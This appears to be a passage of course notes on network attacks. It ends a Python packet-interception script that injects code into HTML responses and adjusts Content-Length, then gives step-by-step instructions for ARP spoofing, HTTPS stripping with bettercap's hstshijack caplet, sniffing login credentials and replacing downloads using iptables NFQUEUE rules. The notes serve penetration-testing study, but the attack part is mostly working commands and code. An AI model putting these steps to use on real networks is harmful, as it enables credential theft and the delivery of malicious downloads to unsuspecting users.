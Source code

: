 ```python
            # Rexgex: Non-capturing group
            content_length_search = re.search("(?:Content-Length:\s)(\d*)".encode(), load)
            
            if content_length_search and "text/html".encode() in load:
                content_length = content_length_search.group(1)
                new_content_length = int(content_length) + len(injection_code)
                load = load.replace(content_length, str(new_content_length).encode())
                print(f'Previous content length: {int(content_length)}\
                     \n Current content length: {new_content_length}')
            #print(scapy_packet.show()) 

        # This gets executed if the load is modified   
        if load != scapy_packet[scapy.Raw].load:
            new_packet = set_load(scapy_packet, load)
            packet.set_payload(bytes(new_packet))


    packet.accept()

queue = nq.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()


```


# Section 10: Bypassing HTTPS
- Watch again
Use the following implementation of a network penetetrating tool called ***bettercap*** 
> bettercap - iface eth0 -caplet hstshijack/hstshijac
> bettercap: replce  80 with 8080 in replace_download.py. 


- Need to modify the ports in code_injector program


> <span style="color:red;"> Some websites use use hsts: Here, bypassing https fails for now. </span>


### Bypassing https and Sniffing Loging credentials.
1. Run packet_sniffer.py
2. Run arp_spoof.py to make attaker MITM.
3. Execute the command
    >  bettercap -iface eth0 -caplet /usr/share/bettercap/caplets/hstshijack/hstshijack.cap

### Replacing downloads on https
1. Run arp_spoof.py to make attaker MITM.
2. Execute the command
    > bettercap -iface eth0 -caplet /usr/share/bettercap/caplets/hstshijack/hstshijack.cap
3. Run the following commands:
    > iptables -I INPUT -j NFQUEUE --queue-num 0
    > iptables -I OUTPUT -j NFQUEUE --queue-num 0 
4. Run replace_download_https.py 
